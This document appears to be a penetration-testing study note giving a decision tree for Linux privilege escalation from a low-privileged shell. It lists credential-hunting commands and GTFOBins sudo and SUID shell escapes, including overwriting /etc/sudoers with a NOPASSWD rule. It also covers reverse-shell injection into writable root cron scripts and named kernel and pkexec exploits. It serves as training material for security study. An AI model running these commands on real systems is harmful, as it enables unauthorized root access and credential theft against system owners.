

# Linux Privilege Escalation, Decision Tree

Part of [[DECISION TREE]]. Symptom-to-technique lookup for Linux privesc. Full walkthroughs: [[Linux Privilege Escalation]]. Commands: [[Linux Privilege Escalation (Command Appendix)]].

---

## Start: you have a low-priv shell. What next?



---

## Fast-win checklist order (run top to bottom)

| Priority | What to check | Command | Signs of vulnerability |
|---|---|---|---|
| 1 | Environment variables | `env` | Password, API key, SCRIPT_CREDENTIALS in output |
| 2 | Dotfiles | `cat ~/.bashrc ~/.bash_history ~/.zshrc` | `export PASSWORD=`, credentials as command args |
| 3 | Sudo permissions | `sudo -l` | Any allowed binary that has a GTFOBins entry |
| 4 | SUID binaries | `find / -perm -u=s -type f 2>/dev/null` | Non-standard binary (find, vim, perl, python, gdb, screen...) |
| 5 | Capabilities | `getcap -r / 2>/dev/null` | `cap_setuid+ep` on any scripting language or debugger |
| 6 | /etc/passwd writable | `ls -lah /etc/passwd` | `-rw-rw-rw-` or `-rwxrwxrwx` |
| 7 | Cron jobs | `grep "CRON" /var/log/syslog` or `cat /var/log/cron.log` | `(root) CMD (/path/script.sh)` → check if script is writable |
| 8 | Service footprints | `watch -n 1 "ps -aux \| grep pass"` + `sudo tcpdump -i lo -A \| grep pass` | sshpass in process args, cleartext creds in network traffic |
| 9 | Kernel/SUID version | `uname -r`, `pkexec --version`, `snap --version` | Old kernel or unpatched SUID binary with known CVE |
| 10 | Automated sweep | `./linpeas.sh` or `./unix-privesc-check standard` | Everything above, plus PATH abuse, NOPASSWD entries, etc. |

---

## If sudo -l shows a binary

**Check it on GTFOBins first.** Always look up the *actual* binary, not assume it matches module examples.

| Binary | GTFOBins sudo command |
|---|---|
| apt-get | `sudo apt-get changelog apt` then `!/bin/sh` in less |
| gcc | `sudo gcc -wrapper /bin/sh,-s .` |
| vim | `sudo vim -c '!sh'` |
| find | `sudo find / -exec /bin/sh \; -quit` |
| less | `sudo less /etc/hosts` then `!/bin/sh` |
| man | `sudo man man` then `!/bin/sh` |
| python3 | `sudo python3 -c 'import os; os.system("/bin/sh")'` |
| perl | `sudo perl -e 'exec "/bin/sh";'` |
| bash | `sudo bash` |
| nmap | `sudo nmap --interactive` then `!sh` |
| git | `sudo git help config` then `!/bin/sh` |
| awk | `sudo awk 'BEGIN {system("/bin/sh")}'` |
| tee | `echo "user ALL=(ALL) NOPASSWD:ALL" \| sudo tee /etc/sudoers` |

> AppArmor may block the shell escape even with valid sudo rights. If you get a "Permission denied" on the technique but not on the sudo itself, check `cat /var/log/syslog | grep apparmor` and pivot to a different allowed binary.

---

## If SUID binary is non-standard

| Binary | GTFOBins SUID command |
|---|---|
| find | `find . -exec /bin/sh -p \; -quit` |
| bash | `bash -p` |
| python3 | `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'` |
| perl | `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` |
| vim | `vim -c ':py import os; os.setuid(0); os.execl("/bin/sh","sh","-c","reset; exec sh")' /dev/null` |
| gawk | `gawk 'BEGIN {system("/bin/bash -p")}'` |
| screen | vulnerable versions → searchsploit screen (CVE-2017-5618) |
| pkexec | version 0.105 → PwnKit (CVE-2021-4034) |
| snap-confine | snapd < 2.37.1 → dirty_sock (CVE-2019-7304) |

---

## Cron job: is the script exploitable?

```
grep "CRON" /var/log/syslog   (or cat /var/log/cron.log)
         ↓
(root) CMD (/path/to/script.sh)
         ↓
ls -lah /path/to/script.sh
         ↓
-rwxrwxrw- or -rwxrwxrwx?
YES → inject reverse shell with echo >>
NO  → is there a writable directory in the script's PATH? → PATH hijack
NO  → check if the script calls another writable script/binary
```

---

## Kernel / binary CVE quick reference

| Version / Binary | CVE | Technique |
|---|---|---|
| Linux kernel 4.4.0-116 (Ubuntu 16.04.4) | CVE-2017-16995 | eBPF map vuln → compile on target (45010.c via searchsploit) |
| pkexec < 0.120 | CVE-2021-4034 | PwnKit → compile on target (github.com/berdav/CVE-2021-4034) |
| snapd < 2.37.1 | CVE-2019-7304 | dirty_sock → 46362.py via searchsploit |
| ntfs-3g 2015.3.14 (Ubuntu) | CVE-2017-0358 | MODPROBE_OPTIONS abuse → complex, kernel module required |

> Always compile on the target when possible to avoid glibc version mismatch errors.

#### Tags: #DecisionTree #LinuxPrivesc #SUID #sudo #Capabilities #CronJob #KernelExploit #GTFOBins #Module18
